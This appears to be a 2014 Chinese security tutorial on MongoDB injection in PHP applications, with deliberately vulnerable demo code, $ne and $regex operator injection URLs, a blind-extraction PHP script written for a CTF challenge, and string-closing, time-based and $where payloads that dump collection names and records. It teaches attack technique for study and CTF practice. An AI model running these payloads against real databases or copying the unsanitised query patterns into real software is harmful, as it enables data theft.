# Mongodb 注入攻击

2014/11/19 11:39 | [Th1nk](http://drops.wooyun.org/author/Th1nk "由 Th1nk 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 前言

* * *

关于 mongodb 的基本安装运行操作以及 php 操作 mongodb，请参考我以前的文章

php 下操作 mongodb 的帖子国内已经有了，但是基于 php 下注入攻击 mongodb 的文章似乎还比较少。本文是笔者在学习、查阅了大量资料后的一些总结，文中涉及的攻击手法及其知识产权全部归原作者所有，我只是大自然的搬运工。未征得笔者同意，请勿转载。

## 0x01 概括

* * *

php 下操作 mongodb 大致有以下两种方式

1.用 mongo 类中相应的方法执行增查减改 比如：

```
<?php

$mongo = new mongoclient();

$db = $mongo->myinfo; //选择数据库

$coll = $db->test; //选择集合

$coll->save();    //增

$coll->find();    //查

$coll->remove();    //减

$coll->update();    //改

```

此时，传递进入的参数是一个数组。

2.用 execute 方法执行字符串 比如：

```
<?php

$mongo = new mongoclient();

$db = $mongo->myinfo; //选择数据库

$query = "db.table.save({'newsid':1})";    //增

$query = "db.table.find({'newsid':1})";    //查

$query = "db.table.remove({'newsid':1})";    //减

$query = "db.table.update({'newsid':1},{'newsid',2})";    改

$result = $db->execute($query);

```

此时，传进方法 execute 的参数就是字符串变量$query

特别的，此时的字符串书写语法为 js 的书写语法。

对于以上两种不同执行方式，有不同的注入攻击方式。

## 0x02 注入攻击

* * *

0.在攻击前，我们需要先建立一个集合，作为攻击的基础。



用户 test 是攻击者已经知道账号密码的一个测试账号，其他账号的话密码随机。想通过注入获取其他账号的密码。

1.数组绑定时的注入

一个数组绑定的查询 demo 如下：

```
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$coll = $db->test; //选择集合
$username = $_GET['username'];
$password = $_GET['password'];
$data = array(
        'username'=>$username,
        'password'=>$password
        );
$data = $coll->find($data);
$count = $data->count();
if ($count>0) {
    foreach ($data as $user) {
        echo 'username:'.$user['username']."</br>";
        echo 'password:'.$user['password']."</br>";
    }
}
else{
    echo '未找到';
}
?>

```



此时的攻击利用了 php 可以传递数组参数的一个特性。

当传入的 url 为：

http://127.0.0.1/2.php?username=test&password=test

执行了语句：

> db.test.find({username:'test',password:'test'});

如果此时传入的 url 如下:

> http://127.0.0.1/2.php?username[xx]=test&password=test

则$username 就是一个数组，也就相当于执行了 php 语句：

```
$data = array(
'username'=>array('xx'=>'test'),
'password'=>'test');

```

而 mongodb 对于多维数组的解析使最终执行了如下语句：

> db.test.find({username:{'xx':'test'},password:'test'});

利用此特性，我们可以传入数据，是数组的键名为一个操作符（大于，小于，等于，不等于等等），完成一些攻击者预期的查询。

如，传入 url:

> http://127.0.0.1/2.php?username[$ne]=test&password[$ne]=test

结果如图



因为传入的键名$ne 正是一个 mongodb 操作符，最终执行了语句：

> db.test.find({username:{'$ne':'test'},password:{'$ne':'test'}});

这句话相当于 sql:

> select * from test where username!='test' and password!='test';

直接便利出所有集合中的数据。

如果此时的用户名与密码不能回显，只是返回一个逻辑上的正误判断。

那么我们可以采用$regex 操作符来一位一位获取数据。

案例演示：http://121.40.86.166:23339/

这是 hctf 中的一道题目。

猜测其 php 代码大概如下

```
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$coll = $db->test; //选择集合
$lock = $_POST['lock'];
$key = $_POST['key'];
if (is_array($lock)) {
    $data = array(
        'lock'=>$lock);
    $data = $coll->find($data);
    if ($data->count()>0) {
        echo 'the lock is right,but wrong key';
    }else{
        echo 'lock is wrong';
    }
}else{
    if ($lock == 'aabbccdd'&&$key=='aabbccdd') {
        echo 'Your flag is xxxxxxx';
    }else{
        echo 'lock is wrong';
    }
}
?>

```

这样的话，因为只有“正确”或者“错误”两种回显，我们只能通过正则判断来一位一位读取 lock 的内容了。

对于该题的利用 payload 如下：

```
<?php 
$ch=curl_init();
curl_setopt($ch,CURLOPT_URL,'http://121.40.86.166:23339/');
curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
curl_setopt($ch,CURLOPT_POST,1);
$ori = '0123456789abcdefghijklmnopqrstuvwxyz';
$str = '';
for ($i=0; $i <10 ; $i++) {
    for ($j=0; $j <strlen($ori) ; $j++) { 
        $post = 'key=1&lock[$regex]=^'.$str.$ori[$j];
        curl_setopt($ch,CURLOPT_POSTFIELDS,$post);
        $data=curl_exec($ch);
        if (strlen($data) == 319) {
           $str.=$ori[$j];
           echo $str."\r\n";
           break;
        }
    }
}
?>

```

结果如图：



相当于在数据库中多次执行查询:

db.test.find({lock:{'$regex':'^a'}}); db.test.find({lock:{'$regex':'^b'}}); db.test.find({lock:{'$regex':'^c'}}); db.test.find({lock:{'$regex':'^ca'}}); …… …… db.test.find({lock:{'$regex':'^aabbccdd'}});

最终全部猜出字符串的内容,相似与 sql 注入中的盲注。

2.拼接字符串时的注入

因为字符串的拼接方式多种多样，不同程序员也有不同的书写习惯。

本文中仅举几个 demo 为例。

```
<?php
$username = $_GET['username'];
$password = $_GET['password'];
$query = "var data = db.test.findOne({username:'$username',password:'$password'});return data;";
//$query = "return db.test.findOne();";
//echo $query;
$mongo = new mongoclient();
$db = $mongo->myinfo;
$data = $db->execute($query);
if ($data['ok'] == 1) {
    if ($data['retval']!=NULL) {
        echo 'username:'.$data['retval']['username']."</br>";
        echo 'password:'.$data['retval']['password']."</br>";
    }else{
        echo '未找到';
    }
}else{
    echo $data['errmsg'];
}
?>

```

攻击方式：

> http://127.0.0.1/1.php?username=test'&password=test



报错。 想办法闭合语句。

> http://127.0.0.1/1.php?username=test'});return {username:1,password:2}//&password=test

该语句能返回一个数组，username 键值是 1，password 键值是 2.



爆 mongodb 版本

> http://127.0.0.1/1.php?username=test'});return {username:tojson(db.getCollectionNames()),password:2};//&password=test

爆所有集合名

PS:因为 db.getCollectionNames()返回的是数组，需要用 tojson 转换为字符串。并且 mongodb 函数区分大小写。



爆 test 集合的第一条数据

> http://127.0.0.1/1.php?username=test'});return {username:tojson(db.test.find()[0]),password:2};//&password=test



爆 test 集合的第二条数据



因为 execute 方法支持多语句执行，所以可以执行太多语句了，不演示~

当然，有时可能遇到没有输出返回数据，这时候怎么办呢？

在高版本下，添加了一个函数 sleep()，就是时间盲注咯~

PS:在高版本下，貌似不能用注释语句，此外高版本还有一个新特性就是默认开启错误回显。笔者尝试没有注释成功，只能用闭合的方法。

> http://127.0.0.1/1.php?username=test'});if (db.version() > "0") { sleep(10000); exit; }var b=({a:'1&password=test



成功延时了十秒。

另一个 demo

在 Mongdb 中可以使用$where 操作符。相当于 sql 语句中的 where 限制语句。mongodb 中的$where 操作符常常引入一个 js 的函数来作为限制条件，当 js 函数中的字符串存在未过滤的用户输入时，注入就产生了。

放 demo：

```
<?php
$mongo = new mongoclient();
$db = $mongo->myinfo; //选择数据库
$coll = $db->news; //选择集合
$news = $_GET['news'];
$function = "function() {if(this.news == '$news') return true}";
echo $function;
$result = $coll->find(array('$where'=>$function));
if ($result->count()>0) {
    echo '该新闻存在';
}else{
    echo '该新闻不存在';
}
?>

```

为了测试，我建立了两个集合，一个是 news 集合，查询过程中存在注入。另一个是 user 集合，我们要注入得到其中的数据。

代码中的 this.news 指的就是表中的 news 栏（字段），上面的代码翻译成 sql 语句就是：

> select * from news where news='$news'

该 demo 的注入方式可以参考如下：

> http://127.0.0.1/3.php?news=test

返回正常

> http://127.0.0.1/3.php?news=test'

返回错误

> http://127.0.0.1/3.php?news=test'%26%26'1'=='1

返回正常

> http://127.0.0.1/3.php?news=test'%26%26'1'=='2

返回错误

至此检测出注入，开始获取数据。

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames().length>0%26%26'1'=='1

返回正常，集合数大于 0

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames().length==5%26%26'1'=='1

返回正常，集合数等于 5



获取集合名称

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames()[0].length==6%26%26'1'=='1

返回正常，第一个集合名称长度为 6

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames()[0][0]>'a'%26%26'1'=='1

返回正常，第一个集合名称第一个字符大于 a

> http://127.0.0.1/3.php?news=test'%26%26db.getCollectionNames()[0][0]=='m'%26%26'1'=='1

返回正常，第一个集合名称第一个字符为 m



最终可以破解出存在 user 集合。

查 user 集合中的第一条数据。

> http://127.0.0.1/3.php?news=test'%26%26tojson(db.user.find()[0])[0]=='{'%26%26'1'=='1

因为 db.user.find()返回的不是一个字符串，无法取出字符进行比较，我们可以将它转化成一个 json 字符串，就可以比较了。 道理讲明白了，剩下的都是体力活，用 python 或者 php 写下小脚本就能实现自动化。

## 0x03 Referer

* * *

http://drops.wooyun.org/papers/850

http://webcache.googleusercontent.com/search?q=cache:fPNiwObqKcEJ:hi.baidu.com/d4rkwind/item/ad7b81efb799ce2e6dabb8c3+&cd=1&hl=zh-CN&ct=clnk&gl=cn

版权声明：未经授权禁止转载 [Th1nk](http://drops.wooyun.org/author/Th1nk "由 Th1nk 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [DVWA 中学习 PHP 常见漏洞及修复方法](http://drops.wooyun.org/papers/483)
*   [MongoDB 安全配置](http://drops.wooyun.org/%e8%bf%90%e7%bb%b4%e5%ae%89%e5%85%a8/2470)
*   [SqlServer 2005 Trigger](http://drops.wooyun.org/tips/3464)
*   [wechall mysql 关卡题解](http://drops.wooyun.org/papers/1321)
*   [OQL(对象查询语言)在产品实现中造成的 RCE(Object Injection)](http://drops.wooyun.org/papers/4115)
*   [PHP 绕过 open_basedir 列目录的研究](http://drops.wooyun.org/tips/3978)